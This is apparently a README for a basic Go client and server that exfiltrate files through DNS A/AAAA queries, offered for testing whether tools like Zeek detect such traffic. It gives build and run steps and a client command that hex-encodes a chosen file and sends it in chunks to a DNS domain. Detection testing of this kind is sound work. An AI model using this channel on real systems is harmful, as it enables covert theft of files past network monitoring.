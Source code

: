 This is a very basic file exfiltration tool that uses DNS A and AAAA records to exfiltrate files. This is a simple tool to easily test for detections for file exfiltration via DNS. The client sends the specified file as both A and AAAA requests, and currently the server responds just to A record requests with a bogus IP response. If Bro (Zeek) is being used, this tool should flag for anomalous dns traffic.

To Use: **Server Side**
1. On your intended server, copy the go-dnsserver.go file and build on the server (**go build**)
2. Start it: **sudo ./go-dnsserver**
3. The server will then listen for incoming DNS connections
4. The server will resolve any request it receives to 10.10.10.10

To Use: **Client Side**
1. Copy the go-dnsclient.go file over to the client you plan to test it on
2. Change the dns server IP in the client code from 127.0.0.1 to whatever IP you are using for the server 
3. Build (**go build**) 
4. Run the client and feed it a single parameter which is the path to the file you want to exfil. Example:

**./go-dnsclient ~/Desktop/testfile.txt**

5. the client will then read the contents of the file, hex encode it, and send it in 10 character chunks as A record requests. The format of each request is:
[10 hex encoded characters].macconsultants.com
6. Once done the server will take all of the hex encoded data, combine, and unhexlify it to a file as ASCII in the same directory. The output file is called outfile.
7. The server will not indicate when done but the client does. Once the client says it is done, you can kill the server and view the contents of outfile.
8. You will need to rename the outfile if you want to send multiple files, since the server will overwrite it if the same filename is used.


